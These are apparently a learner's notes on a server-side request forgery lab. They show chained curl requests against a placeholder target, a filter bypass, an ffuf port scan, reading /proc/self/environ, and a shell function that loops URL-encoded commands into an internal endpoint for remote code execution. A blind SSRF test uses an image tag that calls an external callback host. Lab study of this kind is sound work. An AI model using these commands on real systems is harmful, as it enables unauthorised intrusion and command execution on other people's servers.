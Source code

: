 Now lesson is trying to attack `internal.app.local`, as it was seen when we did the very first cURL on step 2. Ultimate goal to achieve RCE.

12. `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"` is then repeating on the target. Showed a 200 for Werkzeug python server. 
13. `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1` the respone of *unknown url type http127.0.0.1* shows that the *://* is getting stripped off. 
14. Repeat using http:://// instead of :// which removed the first instance. 
15. fuff again with `ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:PORT" -fr 'Errno[[:blank:]]111'` -fr is for regexp. again gives 80 & 5000.
16. `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:5000` shows some file content like the command `ls -alt` in terminal. 
17. From here the /proc/self/environ file is read to see the current path (which was found at PWD=/app) and then look at the file internal_local.py. **Weirdly -o not needed on the second one?**
18. Looking at source code shows `/runme?x=<CMD>` and `/` does command `ls -lha`
19. `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"`. But trying one with arguments does not work. URL encoding needed. 
20. To encode something using command line:
	```bash
	echo "encode me" | jq -sRr @uri
	```
21. Automate executing commands by putting into terminal:
	```bash
	function rce() {
	function> while true; do
	function while> echo -n "# "; read cmd
	function while> ecmd=$(echo -n $cmd | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri)
	function while> curl -s -o - "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=${ecmd}"
	function while> echo ""
	function while> done
	function> }
	```
	(why 3 times jq?)
22. run `rce` in term and then type in commands as you wish, response is wrapped in html.

| Exercise for the reader: Obtain a fully interactive reverse-shell
I would do this by `python -c 'import pty; pty.spwawn("/bin/bash")'`? Nope doesn't seem to work.


### Blind SSRF
Harder to detect, as it could or could not be processed on the backend. No idea. Burp collaborator on proffessional works, or http://pingb.in

Excercise is like the previous one where you follow along

1. Trying a html file with the contents:
	```html
	<!DOCTYPE html>
	<html>
	<body>
		<a>Hello World!</a>
		<img src="http://pingb.in/p/3b42ce6e7de4f57847d07dd4b2eb/x?=viaimgtag">
	</body>
	</html>
	```
	Did not seem to show up.
